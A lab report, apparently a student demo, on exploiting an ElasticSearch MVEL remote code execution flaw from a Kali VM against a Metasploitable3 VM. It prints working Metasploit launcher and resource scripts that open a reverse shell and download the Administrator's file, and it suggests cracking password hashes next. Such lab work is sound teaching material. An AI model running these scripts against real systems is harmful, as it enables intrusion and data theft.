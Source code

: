 # Cybersecurity
## Cybersecurity demo - ElasticSearch exploit
<br>
<br>

### Summary

[Introduction](#Introduction)<br>
[Threat model](#Threat-model)<br>
[Setup](#Setup)<br>
[Execution](#Execution)<br>
[Results](#Results)<br>
[Conclusions](#Conclusions)<br>
[Further developments](#Further-developments)<br>
[Sources](#Sources)
<br>
<br>
### Introduction

This report describes the exploitation of an ElasticSearch [[1]](#Sources)
vulnerability present on a victim's machine using an attacking machine able to execute the exploit.
<br>
<br>
### Threat model

The threat model entails an attacker already inside the private network of the victim and able to establish a connection to
the victim's machine. As an hypothesis, the attacker is interested in downloading the contents of a file managed by the
victim's machine Administrator; disruption of operation is not paramount in this threat model, as the attacker is envisioned
as trying to acquire proprietary knowledge without alerting the legitimate owner in order to sell it to a potential buyer.
<br>
<br>
### Setup

metasploitable3-workspace_win2k8_1742132564644_45096 [[2]](#Sources) Virtual Machine (VM) as the victim's machine.

kali-linux-2024.4-virtualbox-amd64 [[3]](#Sources) VM as the attacker's machine.

The attacker's machine is tasked with automatically running a series of scripts containing all the information
necessary to exfiltrate the file from the victim's machine; the attack uses ```exploit/multi/elasticsearch/script_mvel_rce``` [[4]](#Sources)
to gain access to the victim's machine file system.
<br>
<br>
### Execution

The victim machine is on during the execution of the exploit with user 'vagrant' as the authenticated user.

All files involved in the execution of the exploit are made executable by other processes with ```chmod +rx <name>.<extension>```

The attacker launches the ```exfiltration.sh``` bash script from the ```/home/kali``` directory of the attacker's machine.

```
# exfiltration.sh

#!/bin/bash

cd ~
msfconsole -q -r ./exfiltration.rc
```

```exfiltration.sh``` is tasked with launching msfconsole with ```exfiltration.rc``` as the resource file to be loaded at startup.


```
# exfiltration.rc

use exploit/multi/elasticsearch/script_mvel_rce
set rhosts 10.0.2.15
set AutoRunScript ./meterpreter_exploit.rc
run
exit
```

```exfiltration.rc``` is tasked with feeding msf6 console with the exploit setup and the victim machine private IPv4 address;
it then sets a third file, ```meterpreter_exploit.rc``` as an automated list of commands to be executed at the establisment of
a reverse TCP shell.

```
# meterpreter_exploit.rc

cd ..
cd ..
cd Users
cd Administrator
download important.txt
```

```meterpreter_exploit.rc``` contains the instructions to access the Administrator's directory and download the ```important.txt```
file.

The attacker can then perform further actions; when satisfied, the connection is closed by entering ```quit``` in the meterpreter
terminal. Finally, the execution completes with the final ```exit``` instruction present in ```exfiltration.rc```.
<br>
<br>
### Results

At the end of execution, the file ```important.txt``` is successfully downloaded to the attacker's machine inside the
```/home/kali``` directory.
<br>
<br>
### Conclusions

This experiment has proven that a vulnerability allowing for Remote Code Execution (RCE) in textual input is sufficient
to gain control of the victim's machine. 
<br>
<br>
### Further developments

This demo can be further expanded by allowing for a dynamic choice of the victim's machine and the execution of a more powerful
exploit to gain access to the Administrator's hashed password, using an instrument like John the Ripper [[5]](#Sources) to infere the password
from the hash and gain access to the Administrator's account.
<br>
<br>
### Sources

[1] https://it.wikipedia.org/wiki/Elasticsearch

[2] https://github.com/rapid7/metasploitable3

[3] https://www.kali.org/docs/virtualization/import-premade-virtualbox/

[4] https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/elasticsearch/script_mvel_rce.rb

[5] https://www.openwall.com/john/
